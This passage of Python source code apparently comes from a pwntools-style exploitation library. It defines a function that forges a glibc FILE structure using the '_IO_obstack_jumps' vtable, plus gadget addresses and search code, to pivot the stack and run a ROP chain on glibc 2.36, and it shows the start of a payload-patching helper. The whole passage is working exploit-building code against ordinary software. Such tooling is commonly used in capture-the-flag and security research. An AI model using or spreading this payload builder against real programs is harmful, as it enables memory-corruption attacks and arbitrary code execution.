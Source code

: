 ```python
        )
        return payload

    def house_of_Lys_stack_pivoting_when_exit_in_2_36(self,
                                                      fp_heap_addr : int,
                                                      _IO_obstack_jumps_addr : int,
                                                      rop_payload : bytes or str,
                                                      magic_gadget_one_addr : int,
                                                      magic_gadget_two_addr :int,
                                                      magic_gadget_three_addr : int,
                                                      ):
        '''
        House_of_Lys to execute ROP chain by stack pivoting in GLibc 2.36:

        Args:
            fp_heap_addr(int): The heap addr that replace original _IO_list_all or chain
            _IO_obstack_jumps_addr(int): Address of _IO_obstack_jumps
            rop_payload(bytes or str): The ROP chain you wanner execute
            magic_gadget_one_addr(int): Address of "mov rdx, qword ptr [rax + 0x38] ; mov rdi, rax ; call qword ptr [rdx + 0x20]"
            magic_gadget_two_addr(int): Address of "mov rsp, rdx; ret"
            magic_gadget_three_addr(int): Address of "add rsp, 0x38 ; mov rax, rcx ; ret"

        Notices: 
            1. The size of fp_heap must be exceeded  0x130+len(rop_payload)! If not, you can use [0xe0:] and payload_replace to set ropchain in other memory
            2. We can use the following code to find gadgets:
                libc.search(asm("mov rdx, qword ptr [rax + 0x38] ; mov rdi, rax ; call qword ptr [rdx + 0x20]")).__next__()
                libc.search(asm("mov rsp, rdx; ret")).__next__()
                libc.search(asm("add rsp, 0x38 ; mov rax, rcx ; ret")).__next__()
        '''
        assert context.bits == 64, "only support amd64!"
        rop_chain_addr = fp_heap_addr + 0xe8
        self._IO_read_base = 1
        self._IO_write_base = 0
        self._IO_write_ptr = 1
        self._IO_write_end = 0
        self._IO_buf_base = magic_gadget_one_addr - 0x8
        self._IO_save_base = rop_chain_addr
        self._IO_backup_base = 1
        self.vtable = _IO_obstack_jumps_addr + 0x20
        payload = flat(
            {
            0x0:self.__bytes__() + pack(fp_heap_addr, 64),
            0xe8:{
                0x0:rop_chain_addr,    #Maybe sometimes you need to replace this address
                0x8:magic_gadget_three_addr,
                0x28:magic_gadget_two_addr,
                0x38:rop_chain_addr + 0x8,
                0x48:rop_payload
            }
            }
        )
        return payload


def payload_replace(payload: str or bytes, rpdict:dict=None, filler="\x00"):
    assert isinstance(payload, (str, bytes)), "wrong payload!"
    assert context.bits in (32, 64), "wrong context.bits!"
    assert len(filler) == 1, "wrong filler!"
    
    if isinstance(payload, str):
```